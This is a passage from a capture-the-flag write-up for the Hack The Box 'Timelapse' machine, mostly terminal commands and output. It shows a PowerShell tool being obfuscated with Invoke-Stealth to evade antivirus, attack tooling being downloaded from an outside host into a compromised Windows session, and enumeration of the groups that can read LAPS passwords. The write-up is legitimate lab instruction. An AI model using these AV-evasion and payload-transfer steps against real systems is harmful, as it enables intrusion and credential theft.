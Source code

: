 Oh... Wait, the PowerShell script is blocked by the anti-virus (AV) software...

In order to bypass the AV, we can do some PowerShell obfuscation.

Upon researching, I found **[Invoke-Stealth](https://github.com/JoelGMSec/Invoke-Stealth) PowerShell script obfuscator**.

**Let's obfuscate `LAPSToolkit.ps1`!**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:51:37(HKT)]
└> pwsh                             
PowerShell 7.3.6

┌──(siunam㉿Mercury)-[/home/siunam/ctf/htb/Machines/Timelapse]
└─PS> iwr -useb https://darkbyte.net/invoke-stealth.php -outfile Invoke-Stealth.ps1
┌──(siunam㉿Mercury)-[/home/siunam/ctf/htb/Machines/Timelapse]
└─PS> copy /opt/LAPSToolkit.ps1 .
┌──(siunam㉿Mercury)-[/home/siunam/ctf/htb/Machines/Timelapse]
└─PS> ./Invoke-Stealth.ps1 ./LAPSToolkit.ps1 -technique All    
[...]
[+] Loading Chameleon and doing some obfuscation.. [OK]
[!] Avoid mixing BetterXencrypt with another techniques.. [OK]
[+] Loading PyFuscation and doing more obfuscation.. [OK]
[+] Encoding with base64 and reverse it to avoid detections.. [OK]
[+] Loading PSObfuscation and randomizing script.. [OK]
[+] Done!
```

**Then transfer the obfuscated `LAPSToolkit.ps1`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:51:49(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
*Evil-WinRM* PS C:\Users\legacyy\Desktop> iwr -Uri http://10.10.14.6/LAPSToolkit.ps1 -OutFile LAPSToolkit.ps1
*Evil-WinRM* PS C:\Users\legacyy\Desktop> Import-Module .\LAPSToolkit.ps1
```

**Now we can use its functions!**

**Get groups that can read passwords:**
```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> Find-LAPSDelegatedGroups

OrgUnit                                    Delegated Groups
-------                                    ----------------
OU=Domain Controllers,DC=timelapse,DC=htb  TIMELAPSE\LAPS_Readers
OU=Servers,DC=timelapse,DC=htb             TIMELAPSE\LAPS_Readers
OU=Database,OU=Servers,DC=timelapse,DC=htb TIMELAPSE\LAPS_Readers
OU=Web,OU=Servers,DC=timelapse,DC=htb      TIMELAPSE\LAPS_Readers
OU=Dev,OU=Servers,DC=timelapse,DC=htb      TIMELAPSE\LAPS_Readers
```
